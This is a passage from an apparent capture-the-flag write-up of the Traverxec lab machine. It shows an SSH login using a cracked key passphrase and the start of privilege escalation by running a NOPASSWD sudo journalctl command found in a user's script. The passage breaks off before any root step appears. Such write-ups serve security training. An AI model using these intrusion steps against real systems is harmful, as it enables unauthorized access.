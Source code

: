 ```bash
Session completed
```
We obtained the passphrase `hunter`, let's try it:
```bash
❯ ssh david@traverxec.htb -i Results/id_rsa
Enter passphrase for key 'Results/id_rsa': # hunter
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
david@traverxec:~$ hostname -I
10.10.10.165 
david@traverxec:~$ ls
bin  public_www  user.txt
```
We obtained user shell as `david`.

## Privilege escalation
At `/home/david` we can see the folder `bin/`, containing:
```bash
david@traverxec:~$ ls -la bin/
total 16
drwx------ 2 david david 4096 Oct 25  2019 .
drwx--x--x 5 david david 4096 Oct 25  2019 ..
-r-------- 1 david david  802 Oct 25  2019 server-stats.head
-rwx------ 1 david david  363 Oct 25  2019 server-stats.sh
david@traverxec:~$ cat bin/*
                                                                          .----.
                                                              .---------. | == |
   Webserver Statistics and Data                              |.-"""""-.| |----|
         Collection Script                                    ||       || | == |
          (c) David, 2019                                     ||       || |----|
                                                              |'-.....-'| |::::|
                                                              '"")---(""' |___.|
                                                             /:::::::::::\"    "
                                                            /:::=======:::\
                                                        jgs '"""""""""""""' 

#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```
From the `.sh` script we can see that `david` has NOPASSWD privileges over `journalctl`:
```bash
david@traverxec:~$ cd bin/
david@traverxec:~/bin$ echo "/usr/bin/sudo /usr/bin/journalctl" >> server-stats.sh 
-bash: server-stats.sh: Operation not permitted
```
Even if we are logged in as `david`, the file `server-stats.sh` is not writable. Then we could try to run the sudo line in our terminal:
```bash
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Sat 2022-06-11 03:23:58 EDT, end at Sat 2022-06-11 06:42:02 EDT. --
Jun 11 05:50:18 traverxec sudo[983]: pam_unix(sudo:auth): conversation failed
Jun 11 05:50:18 traverxec sudo[983]: pam_unix(sudo:auth): auth could not identify password for [www-data]
Jun 11 05:50:18 traverxec sudo[983]: www-data : command not allowed ; TTY=pts/0 ; PWD=/var/nostromo/conf ; USER=root ; COMMAND=list
Jun 11 05:56:58 traverxec su[990]: pam_unix(su:auth): authentication failure; logname= uid=33 euid=0 tty=pts/0 ruser=www-data rhost=  user=david
```